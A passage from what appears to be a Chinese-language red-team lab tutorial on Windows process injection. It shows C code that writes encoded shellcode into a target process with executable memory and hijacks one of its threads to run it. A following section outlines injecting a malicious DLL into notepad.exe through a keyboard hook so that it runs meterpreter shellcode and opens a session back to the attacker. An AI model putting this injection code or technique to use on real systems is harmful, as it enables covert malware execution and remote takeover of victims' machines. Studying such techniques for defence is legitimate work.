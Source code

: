 ```c
		"\x77\x48\xf8\xe0\x83\x67\x46\x26\x95\xe2\x8c\x3b\x79\x2d"
		"\xfb\x03\xde\xc3\xc9\x48\x57\x60\xd3\x5e\x5d\xca\xf0\x2a"
		"\xea\xe1\x48\xdd\x82\x02\x88\x0e\xb7\xd8\xf5\xe6\x9b\xf0"
		"\x1c\x84\xc2\x84\x0f\x28\x52\x7d\xa6\xee\xc2\xdd\x4e";

	HANDLE targetProcessHandle;
	PVOID remoteBuffer;
	HANDLE threadHijacked = NULL;
	HANDLE snapshot;
	THREADENTRY32 threadEntry;
	CONTEXT context;

	DWORD targetPID = 15048;
	context.ContextFlags = CONTEXT_FULL;
	threadEntry.dwSize = sizeof(THREADENTRY32);

	targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
	remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof buf, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(targetProcessHandle, remoteBuffer, buf, sizeof buf, NULL);

	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	Thread32First(snapshot, &threadEntry);

	while (Thread32Next(snapshot, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == targetPID)
		{
			threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
			break;
		}
	}

	SuspendThread(threadHijacked);

	GetThreadContext(threadHijacked, &context);
	context.Rip = (DWORD_PTR)remoteBuffer;
	SetThreadContext(threadHijacked, &context);

	ResumeThread(threadHijacked);
}

```

## SetWindowHookEx 代码注入

Windows 允许程序安装钩子来监视各种系统事件，例如使用`SetWindowHookEx`.

在本实验中，`SetWindowHookEx`我们将恶意 DLL 注入到 notepad.exe 中，然后执行meterpreter shellcode。

创建一个导出一个函数的恶意 DLL，该函数在被调用时会执行 meterpreter shellcode

创建另一个程序来加载恶意二进制文件：

导出函数的解析地址

安装键盘挂钩。然后钩子指向导出的函数

Notepad.exe 由受害者启动并注册按键

由于键盘事件被挂钩，notepad.exe 会加载到我们的恶意 dll 中并调用导出的函数

在攻击系统上建立 Meteterpreter 会话
